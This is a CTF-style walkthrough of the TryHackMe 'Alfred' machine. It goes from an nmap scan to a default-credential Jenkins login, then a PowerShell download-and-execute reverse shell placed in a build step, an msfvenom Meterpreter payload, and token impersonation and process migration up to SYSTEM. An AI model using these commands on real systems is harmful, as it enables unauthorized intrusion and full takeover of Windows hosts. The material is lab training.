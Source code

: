# Alfred



## Recon



### nmap

```nmap
# Nmap 7.91 scan initiated Tue Mar 16 23:54:51 2021 as: nmap -sC -sV -Pn -p- -oA nmap/alfred 10.10.138.219
Nmap scan report for 10.10.138.219
Host is up (0.015s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=alfred
| Not valid before: 2021-03-15T22:29:35
|_Not valid after:  2021-09-14T22:29:35
|_ssl-date: 2021-03-16T23:57:04+00:00; 0s from scanner time.
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar 16 23:57:04 2021 -- 1 IP address (1 host up) scanned in 133.06 seconds
```



## Jenkins



![login](/home/boolean/notes/tryhackme/assets/alfred-login.png)

Default credentials of admin:admin; allow us to login.



### Using Jenkins to perform a system command that will upload a script that creates a reverse tcp shell.

Within the existing project we can modify the build step to perform windows commands



![alfred-config-proj](/home/boolean/notes/tryhackme/assets/alfred-config-proj.png)

![alfred-build](/home/boolean/notes/tryhackme/assets/alfred-build.png)

We add in the command below into the build step, when the build is triggered it will attempt to download and execute the script ```powershell Invoke-PowerShellTcp.ps1 ```, creating a reverse shell on Port 9001

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.7.51/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.7.51 -Port 9001
```



## Foothold



Before triggering a build of the project we need to do 2 prepatory steps.

1. Start a webserver from where the script can be downloaded from.
2. Setup a netcat listener on port 9001



### Starting Webserver

Before starting ensure you have the ```powershell Invoke-PowerShellTcp.ps1 ``` in the current working directory

```bash
$ sudo python3 -m http.server 80
```



### Setup a netcat listener

```bash
nc -lvnp 9001
```



### Triggering the build

Use the build now option to initiate a build.

The build will fail, but that the command will execute.

![alfred-build-now](/home/boolean/notes/tryhackme/assets/alfred-build-now.png)



1. The script is downloaded by the victim server
2. Returns a powershell command prompt

![alfred-foothold](/home/boolean/notes/tryhackme/assets/alfred-foothold.png)



## Privesc



To make privesc easier we are going to switch from the existing TCP reverse shell to a meterpreter shell.



### Migrating to Meterpreter Shell

1. Create a Meterpreter Shell Payload using msfvenom

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.7.51 LPORT=9003 -f exe -o shell9003.exe
```



2. Following the steps used to gain a foot hold, the build step needs to be edited to download the new payload and trigger a build once more. Alternatively you can use the shell thats already been created. The new command should look as follows:

   ```powershell
   powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.11.7.51/shell9003.exe','shell9003.exe')"
   ```

3. Use the following commands within msfconsole to setup a meterpreter listener

   ```bash
   msf6 > use exploit/multi/handler 
   msf6 > set PAYLOAD windows/meterpreter/reverse_tcp 
   msf6 > set LHOST 10.11.7.51 
   msf6 > set LPORT 9003 
   msf6 > run
   ```

4. When ready to execute use the following command to trigger the exe

   ```powershell
   Start-Process "shell9003.exe"
   ```

   

This should return a meterpreter session

![alfred-meterpreter](/home/boolean/notes/tryhackme/assets/alfred-meterpreter.png)



### Escalating Privilages 

Within the shell we run the command whoami /priv to check what permissions the user alfred has.



![alfred-priv](/home/boolean/notes/tryhackme/assets/alfred-priv.png)



The two permissions that are useful to use here are the SeImpersonatePrivilege and SeDebugPrivilege

 

```bash
C:\Program Files (x86)\Jenkins\workspace\project>whoami /priv
whoami /priv
                                                    
PRIVILEGES INFORMATION                  
----------------------
                                                    
Privilege Name                  Description                               State   
=============================== ========================================= ========
...
SeDebugPrivilege                Debug programs                            Enabled 
...
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 

​```
```

Exiting from the shell and returning to the meterpreter session we load the incognito module, and list all available tokens. The easiest way to think about incognito and tokens is using a cookie to gain access to another process. Using the list_tokens command we can see that BUILTIN\Administrators is available.

```bash
meterpreter > load incognito                                                                                                                                                                                      
Loading extension incognito...Success.                                                                                                                                                                            
meterpreter > list_tokens -g                                                                                                                                                                                      
[-] Warning: Not currently running as SYSTEM, not all tokens will be available                                                                                                                                    
             Call rev2self if primary process token is SYSTEM                                                                                                                                                    
Delegation Tokens Available                                                                                                                                                                                       
========================================                                                                                                                                                                          
\                                                                                                                                 ...                                                                                
BUILTIN\Administrators       
...

Impersonation Tokens Available
========================================
NT AUTHORITY\NETWORK
NT SERVICE\AudioSrv
NT SERVICE\DcomLaunch
NT SERVICE\Dhcp
NT SERVICE\DPS
NT SERVICE\lmhosts
NT SERVICE\MpsSvc
NT SERVICE\PolicyAgent
NT SERVICE\Power
NT SERVICE\ShellHWDetection
NT SERVICE\wscsvc

meterpreter > getuid
Server username: alfred\bruce
```

Now we look for a service that is running as NT AUTHORITY\SYSTEM, services.exe is a good one, so within meterpreter use the migrate command to switch to the services.exe pid. 

```bash
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                x64   0
 ...
 572   564   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 580   516   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 608   564   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 668   580   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
...
meterpreter > migrate 668
[*] Migrating from 1560 to 668...
[*] Migration completed successfully.
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

If migration is successful then we can check that we are SYSTEM user by running the getuid command.



# Box Rooted

